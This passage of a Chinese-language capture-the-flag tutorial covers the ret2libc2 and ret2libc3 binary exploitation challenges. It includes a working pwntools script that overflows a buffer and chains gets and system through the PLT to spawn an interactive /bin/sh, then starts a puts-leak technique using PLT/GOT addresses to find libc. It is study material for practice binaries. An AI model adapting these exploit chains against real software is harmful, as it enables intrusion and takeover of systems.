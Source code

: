 在这里，新构建的`gets`的返回地址是`pop_ebx`，主要目的是为了栈帧平衡

> `pop ebx; ret`
>
> `pop ebx`将栈顶数据取出存放至ebx，esp+4
>
> `ret`将栈顶数据取出存放至eip，esp+4
>
> 这样esp就指向了我们的`system_plt`，对应的，`0xdeadbeef`作为system的返回地址，随便填

### EXP2

```python
from pwn import *

sh = process("./ret2libc2")
elf = ELF("./ret2libc2")

system_plt = elf.plt["system"]
buf_addr = 0x804a080
get_plt = elf.plt["gets"]

sh.recvuntil(b"you think ?")
payload = b'A'*(0x6c+0x04) + p32(get_plt) + p32(system_plt) + p32(buf_addr) + p32(buf_addr)
sh.sendline(payload)
sh.sendline("/bin/sh")
sh.interactive()
```

在这里，我们直接将`system_plt`作为`gets`的返回地址。

此时要注意的是，由于没有平衡栈帧，第一个`p32(buf_addr)`其实进行了一手复用，它既作为`gets`的参数，又作为`system`的返回地址。

## ret2libc3

对于pwn来说，整明白了这个应该才算刚刚入门:<

没有system，没有binsh，靠延迟绑定泄露已经执行过函数的真实地址算出偏移与基地址搞到system和binsh的地址



在这里我们泄露`puts`的地址好了

![](https://cdn.novanoir.moe/img/image-20211214151738631.png)

首先搞到`puts`的plt和got表地址

```python
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['_start']
```

覆盖`main`的返回地址到`puts`，参数为`puts_got`，返回到`main`

> 我们返回到main时最好返回到`_start`，若返回到`main`的话，溢出的偏移会**-8bytes**
>
> > 程序入口`_start` -> `_libc_start_main` -> `main`
